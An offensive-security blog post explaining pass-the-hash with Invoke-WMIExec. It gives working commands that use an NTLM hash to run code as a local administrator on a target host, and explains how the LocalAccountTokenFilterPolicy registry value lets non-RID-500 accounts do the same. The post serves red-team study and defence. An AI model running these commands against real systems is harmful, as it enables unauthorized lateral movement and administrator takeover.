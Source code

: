```yaml
---
layout: post
title: "2024-06-18-pass the hash privilege escalation with invoke wmiexec"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-privilege-escalation-with-invoke-wmiexec/
---
```


# Pass The Hash: Privilege Escalation with Invoke-WMIExec

## Execution

If you have an NTLMv2 hash of a local administrator on a box ws01, it's possible to pass that hash and execute code with privileges of that local administrator account:

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username administrator -command hostname
```

Below shows how the user `low` is not a local admin, passes the hash of the local `administrator` account on ws01 and executes a command successfully:

![](<../../.gitbook/assets/image (167).png>)

## RID != 500 - No Pass The Hash for You

Say you have a hash of the user spotless who you know is a local admin on ws01:

![](<../../.gitbook/assets/image (175).png>)

...but when you attempt passing the hash, you get access denied - why is that?

![](<../../.gitbook/assets/image (174).png>)

It may be because hashes for accounts that are not RID=500 (not default administrator accounts) are stripped of some privileges during the token creation.

![](<../../.gitbook/assets/image (172).png>)

![](<../../.gitbook/assets/image (171).png>)

If the target system you are passing the hash to, has the following registry key/value/data set to 0x1, pass the hash will work even for accounts that are not RID 500:

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
```

![](<../../.gitbook/assets/image (166).png>)

```csharp
Invoke-WmiExec -target ws01 -hash 32ed87bd5fdc5e9cba88547376818d4 -username spotless -command hostname
```

![](<../../.gitbook/assets/image (168).png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}
@spotheplanet
